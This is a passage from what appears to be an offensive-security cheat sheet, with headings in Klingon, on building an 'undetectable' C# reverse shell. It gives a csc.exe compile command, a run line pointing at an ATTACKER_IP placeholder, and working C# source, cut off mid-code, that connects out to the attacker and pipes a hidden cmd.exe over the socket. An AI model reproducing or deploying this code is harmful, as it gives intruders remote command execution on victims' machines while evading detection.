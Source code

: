 ### ghItlhvam chaw'be' reverse shell

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### C# Revershell cha'logh

ghItlhvam vItlhutlh:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
ghItlh'a' 'e' yIlo'!
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
```